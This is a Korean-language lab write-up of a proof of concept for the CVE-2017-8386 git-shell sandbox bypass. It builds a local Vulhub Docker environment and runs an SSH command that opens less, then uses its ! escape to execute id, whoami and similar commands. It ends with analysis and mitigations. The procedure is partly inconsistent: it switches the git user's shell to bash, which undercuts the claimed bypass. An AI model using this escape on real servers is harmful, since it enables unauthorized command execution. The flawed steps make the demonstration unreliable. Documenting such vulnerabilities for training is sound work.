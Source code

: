 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

git clone https://github.com/phith0n/vulhub.git


cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash


chsh -s /bin/bash git


su git


mkdir -p ~/.ssh


chmod 700 ~/.ssh


touch ~/.ssh/authorized_keys


chmod 600 ~/.ssh/authorized_keys


vim ~/.ssh/authorized_keys


### 2.6 추가 패키지 설치
apt update


apt install less -y


apt install man-db -y


	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
